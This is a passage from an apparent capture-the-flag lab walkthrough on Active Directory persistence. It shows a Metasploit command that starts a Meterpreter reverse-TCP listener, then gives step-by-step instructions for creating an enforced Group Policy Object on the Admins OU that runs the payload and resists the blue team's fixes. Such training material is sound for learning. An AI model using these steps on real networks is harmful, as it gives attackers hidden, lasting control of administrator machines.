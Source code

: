 Finally, let's start our MSF listener:

`msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"`

With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.

### GPO Creation

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

1. In your runas-spawned terminal, type MMC and press enter.
2. Click on **File->Add/Remove Snap-in**...
3. Select the **Group Policy Management** snap-in and click **Add**
4. Click **OK**

You should be able to see the GPO manager:

GPO Edit

While we can technically write our contents to the Default Domain Policy, which should propagate to all AD objects, we will take a more narrow approach for the task just to show the process. You can play around afterwards to apply the changes to the entire domain.

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as `username - persisting GPO`:

![task8-gpm1](./images/task8-gpm1.png)

Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:

![task8-gpm2](./images/task8-gpm2.png)
